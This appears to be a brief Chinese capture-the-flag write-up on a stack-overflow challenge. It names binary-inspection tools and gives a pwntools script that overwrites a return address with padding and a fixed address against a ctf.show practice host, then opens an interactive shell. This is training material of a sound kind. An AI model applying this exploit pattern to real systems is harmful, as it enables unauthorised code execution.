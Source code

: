 
用exeinfope查文件信息

也可用checksec查看

栈溢出脚本
```
from pwn import *  
  
#p=process("./stack")  
p=remote("pwn.challenge.ctf.show",28189)  
payload=b'a'*13  
payload+=p32(0x804850F) #p32()将整数值转为32位打包  
  
p.send(payload)  
p.interactive()
```

